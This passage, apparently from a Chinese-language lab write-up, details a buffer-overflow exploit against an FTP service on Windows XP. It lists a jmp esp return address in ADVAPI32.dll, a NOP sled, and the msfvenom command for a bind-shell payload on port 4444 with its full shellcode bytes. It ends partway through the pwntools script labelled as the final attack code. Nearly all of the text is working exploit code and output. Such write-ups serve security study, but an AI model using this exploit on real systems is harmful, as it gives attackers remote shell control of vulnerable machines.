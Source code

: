 选择

```python
Message=  0x77dbf049 : jmp esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)

```

## 0x04 Shellcode

### 滑板：

'\x90'*20

### 生成Shellcode

```bash
msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.137.1 LPORT=4444 -b '\x00\x0a\x0d' -f c

"\xda\xc1\xbb\x1a\xf9\xbf\x94\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x53\x83\xc2\x04\x31\x5a\x13\x03\x40\xea\x5d\x61\x88\xe4\x20"
"\x8a\x70\xf5\x44\x02\x95\xc4\x44\x70\xde\x77\x75\xf2\xb2\x7b"
"\xfe\x56\x26\x0f\x72\x7f\x49\xb8\x39\x59\x64\x39\x11\x99\xe7"
"\xb9\x68\xce\xc7\x80\xa2\x03\x06\xc4\xdf\xee\x5a\x9d\x94\x5d"
"\x4a\xaa\xe1\x5d\xe1\xe0\xe4\xe5\x16\xb0\x07\xc7\x89\xca\x51"
"\xc7\x28\x1e\xea\x4e\x32\x43\xd7\x19\xc9\xb7\xa3\x9b\x1b\x86"
"\x4c\x37\x62\x26\xbf\x49\xa3\x81\x20\x3c\xdd\xf1\xdd\x47\x1a"
"\x8b\x39\xcd\xb8\x2b\xc9\x75\x64\xcd\x1e\xe3\xef\xc1\xeb\x67"
"\xb7\xc5\xea\xa4\xcc\xf2\x67\x4b\x02\x73\x33\x68\x86\xdf\xe7"
"\x11\x9f\x85\x46\x2d\xff\x65\x36\x8b\x74\x8b\x23\xa6\xd7\xc4"
"\x80\x8b\xe7\x14\x8f\x9c\x94\x26\x10\x37\x32\x0b\xd9\x91\xc5"
"\x6c\xf0\x66\x59\x93\xfb\x96\x70\x50\xaf\xc6\xea\x71\xd0\x8c"
"\xea\x7e\x05\x38\xe2\xd9\xf6\x5f\x0f\x99\xa6\xdf\xbf\x72\xad"
"\xef\xe0\x63\xce\x25\x89\x0c\x33\xc6\xa4\x90\xba\x20\xac\x38"
"\xeb\xfb\x58\xfb\xc8\x33\xff\x04\x3b\x6c\x97\x4d\x2d\xab\x98"
"\x4d\x7b\x9b\x0e\xc6\x68\x1f\x2f\xd9\xa4\x37\x38\x4e\x32\xd6"
"\x0b\xee\x43\xf3\xfb\x93\xd6\x98\xfb\xda\xca\x36\xac\x8b\x3d"
"\x4f\x38\x26\x67\xf9\x5e\xbb\xf1\xc2\xda\x60\xc2\xcd\xe3\xe5"
"\x7e\xea\xf3\x33\x7e\xb6\xa7\xeb\x29\x60\x11\x4a\x80\xc2\xcb"
"\x04\x7f\x8d\x9b\xd1\xb3\x0e\xdd\xdd\x99\xf8\x01\x6f\x74\xbd"
"\x3e\x40\x10\x49\x47\xbc\x80\xb6\x92\x04\xb0\xfc\xbe\x2d\x59"
"\x59\x2b\x6c\x04\x5a\x86\xb3\x31\xd9\x22\x4c\xc6\xc1\x47\x49"
"\x82\x45\xb4\x23\x9b\x23\xba\x90\x9c\x61";
```

## 0x05 Pwn

最终攻击代码

```bash
from pwn import *
p = remote("192.168.137.128", 21)
payload ='\x41'*251
eip='\x49\xf0\xdb\x77'
sled='\x90'*20
shellcode=("\xda\xc1\xbb\x1a\xf9\xbf\x94\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x53\x83\xc2\x04\x31\x5a\x13\x03\x40\xea\x5d\x61\x88\xe4\x20"
"\x8a\x70\xf5\x44\x02\x95\xc4\x44\x70\xde\x77\x75\xf2\xb2\x7b"
"\xfe\x56\x26\x0f\x72\x7f\x49\xb8\x39\x59\x64\x39\x11\x99\xe7"
"\xb9\x68\xce\xc7\x80\xa2\x03\x06\xc4\xdf\xee\x5a\x9d\x94\x5d"
"\x4a\xaa\xe1\x5d\xe1\xe0\xe4\xe5\x16\xb0\x07\xc7\x89\xca\x51"
"\xc7\x28\x1e\xea\x4e\x32\x43\xd7\x19\xc9\xb7\xa3\x9b\x1b\x86"
"\x4c\x37\x62\x26\xbf\x49\xa3\x81\x20\x3c\xdd\xf1\xdd\x47\x1a"
"\x8b\x39\xcd\xb8\x2b\xc9\x75\x64\xcd\x1e\xe3\xef\xc1\xeb\x67"
"\xb7\xc5\xea\xa4\xcc\xf2\x67\x4b\x02\x73\x33\x68\x86\xdf\xe7"
```